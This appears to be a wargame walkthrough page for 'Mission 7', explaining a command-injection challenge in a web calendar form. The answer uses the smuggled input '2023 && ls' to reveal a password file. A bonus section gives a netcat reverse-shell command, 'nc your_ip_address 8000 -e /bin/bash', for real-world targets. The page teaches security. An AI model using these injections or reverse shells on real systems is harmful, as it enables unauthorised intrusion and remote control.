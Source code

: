 # Mission 7

You only need to have some Linux basic command knowledge to crack this.

<details>
  <summary> Reveal Hint </summary>
  
  **Hint:** What you have to use is command injection method.
  
</details>

---

<details>
  <summary> Reveal Answer </summary>
  
  **Answer:** When you type in '2023', what happens behind the scene is that the underlying Linux system runs 'cal 2023' command, dump the output to cal.pl file, and redirect you to that file. Since it does not do any form of input sanitization, the command is directly executed. Therefore, if you type in '2023 && ls', the linux system will dump the output of 'cal' command and 'ls' command into cal.pl file. And, you will see the name of password file in that cal.pl file.

  **Note:** The truth is this form actually does some kinda filtering to only allow 'ls' command. Therefore, you will not see any output if you try other commands like 'whoami' or 'cat /etc/passwd'.
  
</details>

---

<details>
  <summary>Reveal Bonus Knowledge</summary>

  **Bonus Knowledge:** In real world situations, if you can perform command injection, you might be able to use other commands or make a reverse shell connection back to yourself. For example, run 'nc -nvlp 8000' on your PC and 'nc your_ip_address 8000 -e /bin/bash' on the target.

</details>

[<< Previous](../Mission%206/) &nbsp;&nbsp;|&nbsp;&nbsp; [Next >>](../Mission%208/)

